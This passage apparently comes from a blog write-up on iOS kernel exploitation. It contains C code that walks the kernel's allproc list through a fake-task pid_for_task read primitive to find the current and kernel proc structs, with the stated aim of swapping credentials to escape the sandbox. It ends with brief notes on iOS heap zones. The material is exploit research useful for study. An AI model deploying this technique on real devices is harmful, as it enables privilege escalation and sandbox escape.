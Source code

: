 One can then scour these structs using again the same function **pid_for_task()** to find the current proc struct by checking for **pid = getpid()** (so we can change the creds in the proc struct later to escape the sandbox), and kernproc by checking for pid = 0 (so we can get kern proc creds, find kernel task, ipc_space_kernel etc).

{% highlight c %}
    // extern struct proclist allproc;
    // This global variable stores the start of the linked_list of all proc objects
    uint64_t allproc = allproc_offset + kernel_base;

    uint64_t proc_ = allproc;

    uint64_t myproc = 0;
    uint64_t kernproc = 0;

    // Traverse the linked list until the end of the list. I guess the next pointer of the last element is set to 0
    while (proc_) {
        uint64_t proc = 0;

        // Getting the address of the next proc object in the linked list
        *(uint64_t*) (faketask + procoff) = proc_ - 0x10;
        pid_for_task(foundport, (int32_t*)&proc);
        // Need to read 2 times cause "pid_for_task" can only read 4 bytes at a time
        *(uint64_t*) (faketask + procoff) = 4 + proc_ - 0x10;
        pid_for_task(foundport, (int32_t*)(((uint64_t)(&proc)) + 4));

        // Getting the PID of from proc->p_pid
        int pd = 0;
        *(uint64_t*) (faketask + procoff) = proc;
        pid_for_task(foundport, &pd);

        // Checking if it equals my PID
        if (pd == getpid()) {
            // Address of my proc struct
            myproc = proc;
        } else if (pd == 0){
            // Address of the kernel proc struct
            kernproc = proc;
        }
        proc_ = proc;
    }
{% endhighlight %}
## Heap Allocation Basics

This is a very brief discussion about Heap Allocation in iOS. In iOS, the heap memory is divided into various zones. Allocations of same size will go into same zones, unless for certain objects which have their own special zones (ports, vouchers etc). These zones grow as more objects are allocated, with the new pages being fetched from the zone map. One can see the zones allocated with the **zprint** command on Mac OS. It is assumed that a lot of heap allocation techniques will still be the same in iOS. Another thing is to note that iOS has zone garbage collection as well.

![30]({{site.baseurl}}/images/30.png)
